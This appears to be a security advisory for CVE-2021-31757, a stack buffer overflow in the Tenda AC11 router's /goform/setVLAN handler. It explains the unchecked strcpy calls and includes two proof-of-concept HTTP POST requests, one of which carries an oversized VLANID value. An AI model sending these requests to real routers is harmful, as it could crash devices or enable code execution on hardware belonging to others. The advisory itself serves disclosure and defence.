

# Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setVLAN` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
An issue was discovered on Tenda AC11 devices with firmware through 02.03.01.104_CN. A stack buffer overflow vulnerability in `/goform/setVLAN` allows attackers to execute arbitrary code on the system via a crafted post request.

In the function `sub_800CBC50` (page `/gofrom/setVLAN`) have two stack buffer overflow vulnerability.

1. It isn't limit our input when we input `VLANArea` in `v8` and `VLANID` in `v9`.
2. if `v8` is equal to `1`,`v9` copy to `v14` and jump to LABEL_6
3. In LABEL_6, `v14` will copy to a stack value `v40` by using `strcpy(v40, v14);`.strcpy couldn't limit copy length ,so wo can make stack buffer overflow in `v40`
4. if `v8` is equal to `2`,`v9` will copy to a stack value `v37` by using `strcpy(v37, v9);`,so wo can also make stack buffer overflow in `v37`


## poc 

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=1&VLANID=aaaaaaaa&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=2&VLANID=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@Yu3H0](https://github.com/Yu3H0/),[@peanuts](https://github.com/peanuts62),[@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-31757